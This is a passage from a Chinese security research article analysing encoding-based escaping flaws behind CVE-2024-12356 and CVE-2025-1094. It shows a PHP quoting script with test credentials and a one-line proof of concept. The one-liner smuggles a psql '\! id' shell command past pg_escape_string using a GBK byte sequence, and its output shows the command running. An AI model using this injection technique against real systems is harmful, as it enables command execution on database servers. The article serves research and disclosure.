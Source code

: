 创建`dbq`脚本（内部用户名/密码等信息用于连接`postgre-server`）。

```php
#!/bin/env php
<?php
## reads one line from stdin and quotes it for safe inclusion into a SQL statement
$v = fgets(STDIN);
$l = strlen($v);
if($l>0 && $v[$l-1] == "\n")
        $v=substr($v,0,$l-1);
$host = "localhost";
$dbname = "test";
$user = "postgres";
$password = "test";

//$conn = pg_connect("host=$host dbname=$dbname user=$user password=$password ");
$cn = pg_connect("host=$host dbname=$dbname user=$user password=$password client_encoding='GBK'");
echo "'".pg_escape_string($cn, $v)."'\n";
```

该脚本与前文`dbquote`逻辑基本一样，主要区别是这里增加了`client_encoding='GBK'`客户端编码。

执行`quoted=$(echo -e "hey\xC0'; \! id ## " | ./dbq); echo "select $quoted" |  sudo -u postgres psql -e`，其输出类似：

```bash
select 'hey�';
ERROR:  invalid byte sequence for encoding "UTF8": 0xc0 0x27
uid=131(postgres) gid=138(postgres) groups=138(postgres),114(ssl-cert)
```

从结果来看，出发了命令执行，也就是说`\xc0\x27`序列在`client_encoding='GBK' server_encoding=UTF8`下依旧可用。此外简单尝试了下，`BIG5`，`UHC`做为客户端编码，现象也是如此。

这部分内容和`PostgreSQL`安全团队反馈后，对方回复认为这里的问题算是一种使用上的错误（`a problem in how the escape functions are used, not a bug in how the escape functions work`），而不是`Bug`（因为`UTF8`等编码本身的检测是没有问题的）。所以，这个现象目前在最新版上还是存在的。

### 四、结语

本文分析了因编码问题引起的`CVE-2024-12356`和`CVE-2025-1094`，解释了产生`BeyondTrust`命令注入的核心编码问题。基于该编码问题的思想，笔者对比分析了`Mysql`的代码以及补丁修复后的`PostgreSQL`代码，并进行了一定的拓展分析。`Mysql`暂未发现问题，但`PostgreSQL`在特定"**使用错误**"场景下，依旧会存在类似`CVE-2025-1094`的问题。

### 五、参考链接


1. [CVE-2024-12356 | AttackerKB](https://attackerkb.com/topics/G5s8ZWAbYH/cve-2024-12356/rapid7-analysis)